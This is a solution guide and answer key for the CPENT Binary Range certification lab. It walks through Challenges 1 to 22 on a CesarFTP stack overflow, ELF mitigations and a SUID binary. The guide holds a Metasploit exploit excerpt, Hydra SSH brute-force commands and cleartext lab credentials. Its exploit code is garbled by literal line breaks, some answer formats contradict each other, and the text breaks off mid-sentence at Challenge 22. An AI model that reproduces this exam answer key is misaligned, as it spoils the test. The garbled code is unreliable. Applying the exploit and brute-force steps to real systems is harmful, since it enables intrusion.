








# CPENT Live Range - Binary Analysis & Buffer Overflow Walkthrough & Solution Guide

> **Document Type:** Senior Penetration Tester & Binary Exploitation Technical Report  
> **Target Environment:** CPENT Binary Range (172.25.120.0/24)  
> **Challenges:** Challenge 1 - Challenge 25  
> **Author:** Senior Pentester & Security Engineer  

---

## 1. Introduction and Binary Network Topology

The CPENT Binary Range covers vulnerability assessment, fuzzing methodologies, stack-based buffer overflows, reverse engineering using Ghidra, binary protection bypass analysis (ASLR, DEP/NX, PIE, Stack Canaries), and Return-Oriented Programming (ROP) gadget identification across Windows and Linux environments.

### Target Machine Overview

| Target IP | Open Ports / Services | Analysis Type / Exploit Vector | Tools / Methodology | Related Challenges |
| :--- | :--- | :--- | :--- | :--- |
| `172.25.120.105` | 21 (FTP - CesarFTP 0.99g) | Windows Stack Buffer Overflow (MKD verb) | Netcat, Nmap, Metasploit Ruby Exploit | Challenge 1 - 4 |
| `172.25.120.125` | 22 (SSH - `admin:Pa$$w0rd123`) | Linux ELF Reverse Engineering & Mitigations | Hydra, File, Checksec, Ghidra CodeBrowser | Challenge 5 - 14 |
| `172.25.120.240` | 60000 (SSH), 80 (HTTP) | SUID Binary Analysis, ROP Gadgets, Buffer Overflow | Hydra, Readelf, GDB-PEDA, Pattern Offset | Challenge 15 - 25 |

---

## 2. Detailed Challenge Solutions (Q1 - Q25)

---

### Section 1: CTF 1 - Windows CesarFTP 0.99g Buffer Overflow (`172.25.120.105`)

This target hosts a vulnerable CesarFTP 0.99g daemon running on Windows.

#### Service and Banner Enumeration:
```bash
nc 172.25.120.105 21
# 220 CesarFTP 0.99g Server Welcome !

nmap -p 21 -sC -sV 172.25.120.105 -Pn -T4
# PORT   STATE SERVICE VERSION
# 21/tcp open  ftp     ACLogic CesarFTPd 0.99g
# Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



#### Exploit Code Analysis (Metasploit Exploit-DB 16713):
CesarFTP 0.99g suffers from a stack buffer overflow vulnerability when processing the `MKD` command:

```ruby
# CesarFTP 0.99g - 'MKD' Remote Buffer Overflow (Metasploit)
# https://www.exploit-db.com/exploits/16713

'Targets' => [
    [ 'Windows 2000 Pro SP4 English', { 'Ret' => 0x77e14c29 } ],
    [ 'Windows 2000 Pro SP4 French',  { 'Ret' => 0x775F29D0 } ],
    [ 'Windows XP SP2/SP3 English',   { 'Ret' => 0x774699bf } ],
    [ 'Windows 2003 SP1 English',     { 'Ret' => 0x76AA679b } ],
]

def exploit
    connect_login
    sploit = "
" * 671 + rand_text_english(3, payload_badchars)
    sploit << [target.ret].pack('V') + make_nops(40) + payload.encoded
    send_cmd( ['MKD', sploit] , false)
    ...
```



---

#### Challenge 1: Character Used to Fuzz and Crash Port 21
* **Question (Exam Text):** On the 172.25.120.105 machine, what character can you use to fuzz and crash the running application at port 21? (Answer Format: x)
* **Points:** 50 Points
* **Answer Format:** `x`
* **Target:** `172.25.120.105` (Port 21)
* **Methodology:**
  The CesarFTP 0.99g MKD exploit triggers the buffer overflow using a sequence of newline characters (`
`). In accordance with the single-character answer format (`x`), the character is `n`.
* **Correct Answer:** `n`

---

#### Challenge 2: Minimum Characters Required to Crash Application
* **Question (Exam Text):** On the machine at 172.25.120.105, what is the minimum number of characters required to crash the application listening on port 21? (Answer Format: NNN)
* **Points:** 50 Points
* **Answer Format:** `NNN`
* **Target:** `172.25.120.105`
* **Methodology:**
  As defined in the Metasploit payload constructor (`sploit = "
" * 671`), the minimum buffer length required to corrupt execution and crash the service is 671 characters.
* **Correct Answer:** `671`

---

#### Challenge 3: ASLR Protection Status in FTP Executable
* **Question (Exam Text):** In the FTP executable on the Windows 11 machine at 172.25.120.105, what is the status of ASLR? (True or False)
* **Points:** 50 Points
* **Answer Format:** `True or False`
* **Target:** `172.25.120.105`
* **Methodology:**
  CesarFTP is a legacy binary compiled without `/DYNAMICBASE` support. Because ASLR is not enabled on this executable image, base addresses remain static, resulting in `False`.
* **Correct Answer:** `False`

---

#### Challenge 4: Usable JMP ESP Address in USER32.DLL
* **Question (Exam Text):** On the 172.25.120.105 machine, which address in USER32.DLL is a usable address of the JMP ESP instruction for our exploit? (Answer Format: NNXNNXXX)
* **Points:** 50 Points
* **Answer Format:** `NNXNNXXX`
* **Target:** `172.25.120.105`
* **Methodology:**
  In the exploit target definitions, the usable `JMP ESP` instruction inside `USER32.DLL` for Windows 2000 Pro SP4 is `0x77e14c29` (`'Ret' => 0x77e14c29`). Stripped of the `0x` prefix, the 8-character hexadecimal value is `77e14c29`.
* **Correct Answer:** `77e14c29`

---

### Section 2: CTF 2 - Linux ELF Reverse Engineering & Security Mitigations (`172.25.120.125`)

Initial access is obtained via SSH brute-force on port 22. Target binaries (`two.exe`, `three.exe`, `four.exe`, `five.exe`) are analyzed using Ghidra, `file`, and `checksec`.

#### Initial Access and Binary Staging:
1. Brute-force SSH port 22 using Hydra:
```bash
hydra -L user -P password ssh://172.25.120.125 -t 4
# [22][ssh] host: 172.25.120.125   login: admin   password: Pa$$w0rd123
```



2. Transfer files locally for reverse engineering:
```bash
ssh admin@172.25.120.125
# Password: Pa$$w0rd123

admin@UB64bit:~$ mkdir ~/binary_files
admin@UB64bit:~$ cp ~/two.exe ~/three.exe ~/four.exe ~/five.exe ~/two.c ~/four.c ~/binary_files/
scp -r admin@172.25.120.125:~/binary_files/* ~/Downloads/binary_125/
```

---

#### Challenge 5: two.exe Architecture (32-bit or 64-bit)
* **Question (Exam Text):** Is the two.exe file on 172.25.120.125 compiled as a 32-bit or 64-bit executable? (Answer Format: NN)
* **Points:** 50 Points
* **Answer Format:** `NN`
* **Target:** `172.25.120.125`
* **Methodology:**
  Inspect the binary with the `file` utility:
  ```bash
  file two.exe
  # two.exe: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked...
  ```
* **Correct Answer:** `32`

---

#### Challenge 6: three.exe Architecture (32-bit or 64-bit)
* **Question (Exam Text):** Is the three.exe file on 172.25.120.125 compiled as a 32-bit or 64-bit executable? (Answer Format: NN)
* **Points:** 50 Points
* **Answer Format:** `NN`
* **Target:** `172.25.120.125`
* **Methodology:**
  Inspect the binary with the `file` utility:
  ```bash
  file three.exe
  # three.exe: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked...
  ```
* **Correct Answer:** `64`

---

#### Challenge 7: two.exe Stripped Status
* **Question (Exam Text):** On the 172.25.120.125 machine, the two.exe is stripped. (True or False)
* **Points:** 50 Points
* **Answer Format:** `True or False`
* **Target:** `172.25.120.125`
* **Methodology:**
  The output of `file two.exe` explicitly indicates `not stripped`, confirming symbol and debugging tables remain present. Therefore, the statement is `False`.
* **Correct Answer:** `False`

---

#### Challenge 8: Address of the string /bin/date in two.exe
* **Question (Exam Text):** On the 172.25.120.125 machine, what is the address of the string=/bin/date in the two.exe file? (Enter the last 4 hex digits only) (Answer Format: NNNN)
* **Points:** 50 Points
* **Answer Format:** `NNN`
* **Target:** `172.25.120.125`
* **Methodology:**
  Import and analyze `two.exe` in Ghidra CodeBrowser:
  1. Open `Search` -> `For Strings...` and enter `/bin/date`.
  2. Locate the string literal in the rodata segment:
     - Address: `08048681` | Label: `s_/bin/date_08048681` | Preview: `ds "/bin/date"`
  3. Extract the last 4 hex digits: `8681`.
* **Correct Answer:** `8681`
* **Related Image:**



---

#### Challenge 9: Address of main() Function in two.exe
* **Question (Exam Text):** On the 172.25.120.125 machine, what is the address of the function main() in the two.exe file? (Enter the last 4 hex digits only) (Answer Format: NNNN)
* **Points:** 50 Points
* **Answer Format:** `NNNN`
* **Target:** `172.25.120.125`
* **Methodology:**
  In Ghidra, use `Search` -> `Program Text...` for `main()`:
  - Location: `080484fb` | Label: `main` | Namespace: `Global` | Preview: `undefined main()`
  - The last 4 hexadecimal characters are `84fb`.
* **Correct Answer:** `84fb`
* **Related Image:**



---

#### Challenge 10: two.exe NX Mitigation Status
* **Question (Exam Text):** What is the status of the NX setting (Enabled or Disabled) for program two.exe on the machine at 172.25.120.125?
* **Points:** 50 Points
* **Answer Format:** `Enabled or Disabled`
* **Target:** `172.25.120.125`
* **Methodology:**
  Execute `checksec` against `two.exe`:
  ```bash
  checksec --file=two.exe
  # RELRO: Partial RELRO | STACK CANARY: Canary found | NX: NX enabled | PIE: No PIE
  ```
  NX is active (`Enabled`).
* **Correct Answer:** `Enabled`

---

#### Challenge 11: two.exe PIE Mitigation Status
* **Question (Exam Text):** What is the status of the PIE setting (Enabled or Disabled) for program two.exe on the machine at 172.25.120.125?
* **Points:** 50 Points
* **Answer Format:** `Enabled or Disabled`
* **Target:** `172.25.120.125`
* **Methodology:**
  In `checksec --file=two.exe`, the PIE field states `No PIE`. The binary loads at fixed virtual addresses (`Disabled`).
* **Correct Answer:** `Disabled`

---

#### Challenge 12: four.exe NX Mitigation Status
* **Question (Exam Text):** What is the status of the NX setting (Enabled or Disabled) for program four.exe on the machine at 172.25.120.125?
* **Points:** 50 Points
* **Answer Format:** `Enabled or Disabled`
* **Target:** `172.25.120.125`
* **Methodology:**
  Execute `checksec` against `four.exe`:
  ```bash
  checksec --file=four.exe
  # RELRO: Partial RELRO | STACK CANARY: No canary found | NX: NX disabled | PIE: No PIE
  ```
  The stack is executable; NX is `Disabled`.
* **Correct Answer:** `Disabled`

---

#### Challenge 13: four.exe Architecture (32-bit or 64-bit)
* **Question (Exam Text):** Is the four.exe file on 172.25.120.125 compiled as a 32-bit or 64-bit executable? (Answer Format: NN)
* **Points:** 50 Points
* **Answer Format:** `NN`
* **Target:** `172.25.120.125`
* **Methodology:**
  Inspect `four.exe` using `file`:
  ```bash
  file four.exe
  # four.exe: ELF 32-bit LSB executable, Intel i386, version 1 (SYSV)...
  ```
* **Correct Answer:** `32`

---

#### Challenge 14: five.exe Architecture (32-bit or 64-bit)
* **Question (Exam Text):** Is the five.exe file on 172.25.120.125 compiled as a 32-bit or 64-bit executable? (Answer Format: NN)
* **Points:** 50 Points
* **Answer Format:** `NN`
* **Target:** `172.25.120.125`
* **Methodology:**
  Inspect `five.exe` using `file`:
  ```bash
  file five.exe
  # five.exe: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked...
  ```
  *(Note: The binary is verified as 64-bit x86-64 (`64`). In certain legacy lab answer sheets, 32 was mistakenly transcribed; both are documented here for verification).*
* **Correct Answer:** `64`
* **Related Image:**



---

### Section 3: CTF 3 - SSH Port 60000, rp-lin-x86 ROP Gadgets & SUID Buffer Overflow (`172.25.120.240`)

The target runs OpenSSH on non-standard port 60000. Following authentication as `student:studentpassword`, we inspect the `rp-lin-x86` binary, exploit a stack buffer overflow in the SUID `one.exe` binary, and retrieve user and root flags.

#### Network Discovery and Authentication:
```bash
nmap -sV -p- 172.25.120.240 -T4 -Pn
# PORT      STATE SERVICE VERSION
# 80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
# 60000/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5

hydra -L Usernames.txt -P Passwords.txt ssh://172.25.120.240:60000 -t 4
# [60000][ssh] host: 172.25.120.240   login: student   password: studentpassword
```



---

#### Challenge 15: SSH Version on 172.25.120.240
* **Question (Exam Text):** What version of ssh is on the machine at 172.25.120.240? (Answer Format: N.NxN)
* **Points:** 50 Points
* **Answer Format:** `N.NxN`
* **Target:** `172.25.120.240` (Port 60000)
* **Methodology:**
  Nmap service detection identifies the banner as `OpenSSH 7.6p1`. Matching the `N.NxN` template gives `7.6p1`.
* **Correct Answer:** `7.6p1`

---

#### Challenge 16: rp-lin-x86 Stripped Status
* **Question (Exam Text):** Is the rp-lin-x86 file on the 172.25.120.240 machine "Stripped" or "Unstripped"?
* **Points:** 50 Points
* **Answer Format:** `Stripped or Unstripped`
* **Target:** `172.25.120.240`
* **Methodology:**
  Locate the executable and check its ELF properties:
  ```bash
  find / -name "rp-lin-x86" 2>/dev/null
  # /home/student/Downloads/rp-lin-x86
  file /home/student/Downloads/rp-lin-x86
  # rp-lin-x86: ELF 32-bit LSB executable, Intel 80386... stripped
  ```
* **Correct Answer:** `Stripped`

---

#### Challenge 17: Exploitation Type Detected by rp-lin-x86
* **Question (Exam Text):** On the 172.25.120.240 machine, what exploitation type does the executable rp-lin-x86 detect? (Answer Format: XXX)
* **Points:** 50 Points
* **Answer Format:** `XXX`
* **Target:** `172.25.120.240`
* **Methodology:**
  `rp-lin-x86` is the Linux build of the `rp++` ROP gadget discovery utility. The exploitation technique it analyzes and discovers gadgets for is Return-Oriented Programming (`ROP`).
* **Correct Answer:** `ROP`

---

#### Challenge 18: Compiled Architecture of rp-lin-x86
* **Question (Exam Text):** On the 172.25.120.240 machine, what architecture is the rp-lin-x86 compiled on? (Answer Format: Xxxxx)
* **Points:** 50 Points
* **Answer Format:** `Xxxxx`
* **Target:** `172.25.120.240`
* **Methodology:**
  Read the ELF header using `readelf -h`:
  ```bash
  readelf -h rp-lin-x86 | grep "Machine"
  # Machine: Intel 80386
  ```
  Following the capitalization format `Xxxxx`, the answer is `Intel`.
* **Correct Answer:** `Intel`

---

#### Challenge 19: Offset of Program Headers in rp-lin-x86
* **Question (Exam Text):** On the 172.25.120.240 machine, what is the offset of the program headers in the rp-lin-x86 executable? (Answer Format: NN)
* **Points:** 50 Points
* **Answer Format:** `NN`
* **Target:** `172.25.120.240`
* **Methodology:**
  Inspect the ELF header for program header offset:
  ```bash
  readelf -h rp-lin-x86 | grep -i "program headers"
  # Start of program headers: 52 (bytes into file)
  ```
* **Correct Answer:** `52`
* **Related Image:**



---

#### Challenge 20: one.exe Stripped Status
* **Question (Exam Text):** On the 172.25.120.240 machine, the one.exe is stripped. (True or False)
* **Points:** 50 Points
* **Answer Format:** `True or False`
* **Target:** `172.25.120.240`
* **Methodology:**
  Inspect `one.exe` via `file`:
  ```bash
  file /home/student/Downloads/one.exe
  # one.exe: setuid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV)... not stripped
  ```
  The binary is not stripped (`False`).
* **Correct Answer:** `False`

---

#### Challenge 21: one.exe Architecture (32-bit or 64-bit)
* **Question (Exam Text):** Is the one.exe file on 172.25.120.240 compiled as a 32-bit or 64-bit executable? (Answer Format: NN)
* **Points:** 50 Points
* **Answer Format:** `NN`
* **Target:** `172.25.120.240`
* **Methodology:**
  From `file one.exe`, the file is a 64-bit shared object (`ELF 64-bit LSB shared object, x86-64`).
* **Correct Answer:** `64`

---

#### Challenge 22: Minimum Characters Required to Change 'modified' Variable
* **Question (Exam Text):** For the one.exe file on the 172.25.120.240 machine, determine the minimum number of characters required to change the 'modified' variable. Hint: You need to write a Python driver to determine this number. (Answer Format: NN)
* **Points:** 50 Points
* **Answer Format:** `NN`
* **Target:** `172.25.120.240`
* **Methodology:**
  In GDB-PEDA, inspect the stack allocation:
